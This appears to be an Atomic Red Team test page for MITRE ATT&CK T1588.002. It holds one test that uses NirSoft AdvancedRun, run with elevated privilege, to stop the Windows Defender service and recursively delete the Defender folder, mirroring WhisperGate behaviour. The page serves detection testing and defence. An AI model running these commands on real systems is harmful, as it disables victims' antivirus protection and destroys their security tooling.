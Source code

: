 # T1588.002 - Tool
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1588/002)
<blockquote>Adversaries may buy, steal, or download software tools that can be used during targeting. Tools can be open or closed source, free or commercial. A tool can be used for malicious purposes by an adversary, but (unlike malware) were not intended to be used for those purposes (ex: [PsExec](https://attack.mitre.org/software/S0029)). Tool acquisition can involve the procurement of commercial software licenses, including for red teaming tools such as [Cobalt Strike](https://attack.mitre.org/software/S0154). Commercial software may be obtained through purchase, stealing licenses (or licensed copies of the software), or cracking trial versions.(Citation: Recorded Future Beacon 2019)

Adversaries may obtain tools to support their operations, including to support execution of post-compromise behaviors. In addition to freely downloading or purchasing software, adversaries may steal software and/or software licenses from third-party entities (including other adversaries).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Run NirSoft AdvancedRun](#atomic-test-1---run-nirsoft-advancedrun)


<br/>

## Atomic Test #1 - Run NirSoft AdvancedRun
Information on NirSoft AdvancedRun and it's creators found here: http://www.nirsoft.net/utils/advanced_run.html
This Atomic will run AdvancedRun.exe with similar behavior identified during the WhisperGate campaign.
Upon successful execution, AdvancedRun.exe will run and stop Defender and attempt to delete the Defender folder on disk.

**Supported Platforms:** Windows


**auto_generated_guid:** f7d43d35-d628-4582-bb03-01b1c5e10d11





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| local_folder | Local path of AdvancedRun executable | Path | PathToAtomicsFolder&#92;T1588.002&#92;bin&#92;AdvancedRun|
| local_executable | name of the advancedrun executable | String | advancedrun.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
#{local_folder}\#{local_executable} /EXEFilename "C:\Windows\System32\sc.exe" /WindowState 0 /CommandLine "stop WinDefend" /StartDirectory "" /RunAs 8 /Run
#{local_folder}\#{local_executable} "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" /WindowState 0 /CommandLine "rmdir 'C:\ProgramData\Microsoft\Windows Defender' -Recurse" /StartDirectory "" /RunAs 8 /Run
```

#### Cleanup Commands:
```powershell
Remove-Item #{local_folder}\#{local_executable} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Advancedrun.exe must be located at #{local_folder}\#{local_executable}
##### Check Prereq Commands:
```powershell
if(Test-Path -Path #{local_folder}\#{local_executable}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "http://www.nirsoft.net/utils/advancedrun.zip" -UseBasicParsing -OutFile "$env:temp\AdvancedRun.zip"
  Expand-Archive $env:temp\AdvancedRun.zip #{local_folder} -Force
```




<br/>

